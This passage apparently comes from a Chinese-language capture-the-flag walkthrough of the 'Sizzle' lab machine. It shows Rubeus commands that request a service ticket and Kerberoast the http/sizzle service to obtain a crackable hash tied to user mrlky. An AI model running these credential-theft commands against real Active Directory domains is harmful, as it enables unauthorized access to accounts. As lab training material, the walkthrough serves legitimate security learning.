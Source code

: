 现在我有了一个 TGT，我可以请求服务`http/sizzle`的服务票，它将使用`mrlky`的 NTLM 散列加密。

```
.\r.exe asktgs /service:http/sizzle /ticket:amanda-tgt
```

![](img/cdadd07b614618259b7296f57a940c97.png)

看到一切正常，我现在可以使用 Rubeus 的 kerberoast 模块再次请求一个`TGS`:

```
.\r.exe kerberoast /spn:http/sizzle /ticket:amanda-tgt /nowrap
```

![](img/6364d959ffa13e9deb2d3563f9872c44.png)
